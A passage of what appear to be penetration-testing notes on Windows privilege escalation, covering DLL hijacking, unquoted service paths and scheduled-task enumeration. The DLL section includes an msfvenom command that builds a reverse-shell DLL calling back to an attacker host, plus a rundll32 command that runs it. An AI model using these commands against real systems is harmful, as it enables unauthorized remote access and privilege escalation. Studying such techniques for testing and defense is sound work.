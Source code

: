 ```c
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}

# Cross-Compile the C++ Code to a 64-bit DLL
$ x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll

```

# We can use mfsvenom to generate DLL reverse shell 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=9999 -f dll -o myDLL.dll

# test an dll
rundll32.exe myDLL.dll,0

## Unquoted Service Paths

```powershell
 
# List of services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName 

#  List of services with spaces and missing quotes in the binary path
wmic service get name, displayname, pathname, startmode 
    | findstr /i /v "C:\Windows\\" | findstr /i /v """
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
  | Select-String -NotMatch '"'
  | Select-String -NotMatch 'Windows'

```



## Scheduled Tasks

```powershell

# Display a list of all scheduled tasks
schtasks /query /fo LIST /v > schtasks.txt
Get-ScheduledTask | format-list *

# https://github.com/markwragg/PowerShell-Watch
Get-Proccess backup -ErrorAction SilentlyContinue | Watch-Command -Difference -Continuous -Seconds 30

```
